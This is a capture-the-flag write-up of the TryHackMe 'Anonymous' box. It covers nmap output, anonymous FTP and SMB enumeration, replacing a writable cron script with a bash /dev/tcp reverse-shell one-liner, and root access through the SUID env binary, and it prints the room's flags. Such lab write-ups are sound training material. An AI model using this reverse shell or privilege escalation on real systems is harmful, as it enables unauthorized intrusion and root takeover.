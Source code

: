 This is a medium challenge on TryHackMe.

The Nmap came up with

```diff
nmap -p- -A 10.10.3.37 -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 02:19 EDT
Warning: 10.10.3.37 giving up on port because retransmission cap hit (6).
Stats: 0:15:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 02:35 (0:00:00 remaining)
Nmap scan report for 10.10.3.37
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.3.108
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/7%OT=21%CT=1%CU=39908%PV=Y%DS=5%DC=T%G=Y%TM=66B31
OS:5BF%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:FF%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2024-08-07T06:35:35+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
| smb2-time: 
|   date: 2024-08-07T06:35:34
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   57.86 ms  10.17.0.1
2   ... 4
5   170.41 ms 10.10.3.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 945.50 seconds

```

At first glance the FTP port and SMB ports look rewarding. So, first I decided to go with The FTP port with anonymous:anonymous as the credentials.

```diff
ftp 10.10.238.6
Connected to 10.10.238.6.
220 NamelessOne's FTP Server!
Name (10.10.238.6:whitedevil): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23949|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
 226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||34677|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000           53 Aug 07 09:52 clean.sh
-rw-rw-r--    1 1000     1000          903 Aug 07 09:52 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> 
```
I downloaded all these three files and cat them out, we can see that clean.sh is a clean up script to delete files in the tmp directory. removed_files.log logs all the files deleted by the cleanup script. Now should also notice that we have all read,write and execute permissions as an anonymous user. This can come in hanndy later.

Now, I decided to explore the Samba shares.
```diff
└─# smbclient -L \\\\10.10.238.6
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS

┌──(root㉿Den)-[/home/whitedevil/HTB_THM/Anonymous]
└─# smbclient \\\\10.10.238.6.\\pics
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13289324 blocks available
smb: \> 


```

I downloaded both these files into my system and tried to analyze them, but no luck there!! Then the boxes name being "Anonymous", i figured there must be something to exploit within the FTP server's anonymous login. I looked for known ftp exploits but nothing useful. Then I took some hint from google and got to know that this clean.sh script is running on a cronjob. Now, that makes things interesting. If I could alter the script into a reverse-shell one-liner, then I could gain shell.

```diff
gedit clean.sh                                                                                                                                            
#!/bin/bash

sh -i >& /dev/tcp/10.17.3.108/9001 0>&1
```

I have mention my IP as the LHOST and port 9001 as the LPORT. Now I replace this script with the already existing clean.sh in the FTP  server and open up a listener in a different tab on port 9001.

```diff
nc -nvlp 9001                                                                                                                                        
listening on [any] 9001 ...
connect to [10.17.3.108] from (UNKNOWN) [10.10.238.6] 56442
sh: 0: can't access tty; job control turned off
$ cat user.txt
90d6f992585815ff991e68748c414740

```

For privilege escalation, I tried to list out the files with SUID privileges
```diff
$ find / -perm -04000 -type f 2>/dev/null
/tmp/bash
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Here, the interesting files are pkexec, at and env. Only env has a way for privilege escalation using SUID permissions.

```diff
$ env /bin/sh -p
whoami
root
cat /root/root.txt       
4d930091c31a622a7ed10f27999af363
```

Done and Dusted!!
